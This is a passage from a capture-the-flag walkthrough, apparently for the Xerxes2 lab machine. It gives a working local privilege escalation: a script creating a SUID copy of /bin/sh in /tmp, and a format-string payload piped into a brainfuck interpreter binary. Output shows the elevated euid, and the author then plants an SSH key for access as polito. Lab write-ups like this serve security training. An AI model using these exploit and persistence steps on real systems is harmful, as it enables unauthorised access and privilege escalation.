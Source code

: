 ``` bash
[23:20:11]  <recrudesce>	so, we need to make sure that the correct amount of ,> are before our first #
[23:20:18]  <recrudesce>	else we accidently read /bin/bash too
```


Many many failures were experienced at this point - and I'm talking at least 3 hours of failed executions or failed memory overwrites.  I managed to get basic command execution, but only once every 5-10 attempts would be successful due to the stack shifting ever so slightly.  Anyway, who wants to listen to my boohoo story - you came here for the answers, so here's what you have to do. Make a shell script in /tmp containing the following

[bash]
#!/bin/sh
cp /bin/sh /tmp/shell
chmod 4777 /tmp/shell[/bash]

chmod +x the file so it is executable, and then run the following


``` bash
delacroix@xerxes2:~$ echo $(python -c "print '\x48\x9a\x04\x08' + '%8186u%16\$hn;\/tmp\/123.sh\x00'") | /opt/bf ',>,>,>,>,>,>,>,>,>,>,>,>,>,>,>,#<<<<<<<<<<<<,>,>,>,>,>,>,>,>,>,>,>,>,>,>,#'
```


It will probably throw an error, but the shell script will run and you'll end up with a copy of /bin/sh in /tmp, with the SUID bit set, which when run will elevate you to the polito user.


``` bash

1075339252delacroix@xerxes2:~$ ls -l /tmp
total 148
-rw-r--r-- 1 delacroix delacroix    53 Aug  6 12:07 file1
-rw-r--r-- 1 delacroix delacroix    61 Aug  6 13:03 file2
-rw-r--r-- 1 delacroix delacroix    49 Aug  6 12:24 file3
-rw-r--r-- 1 delacroix delacroix    49 Aug  6 12:27 file4
-rw-r--r-- 1 delacroix delacroix     5 Aug  6 12:31 file5
-rw-r--r-- 1 delacroix delacroix   253 Aug  6 12:50 file6
-rw-r--r-- 1 delacroix delacroix    73 Aug  6 13:37 file7
-rw-r--r-- 1 delacroix delacroix    49 Aug  6 13:59 file8
-rw-r--r-- 1 delacroix delacroix    44 Aug  6 13:59 file9
-rw-r--r-- 1 delacroix delacroix    11 Aug  6 14:15 filea
-rw-r--r-- 1 delacroix delacroix    11 Aug  6 14:13 fileb
-rw-r--r-- 1 delacroix delacroix    11 Aug  6 14:13 filec
-rwxr-xr-x 1 delacroix delacroix    55 Aug  6 16:15 gah.sh
-rwsrwxrwx 1 polito    polito    97284 Aug  6 16:15 shell
delacroix@xerxes2:~$ /tmp/shell
$ id
uid=1002(delacroix) gid=1002(delacroix) euid=1001(polito) groups=1001(polito),1002(delacroix)
$
```


I then did the same deal here - echo'd my SSH public key to ~/.ssh/authorized_keys and SSH'd in as polito.
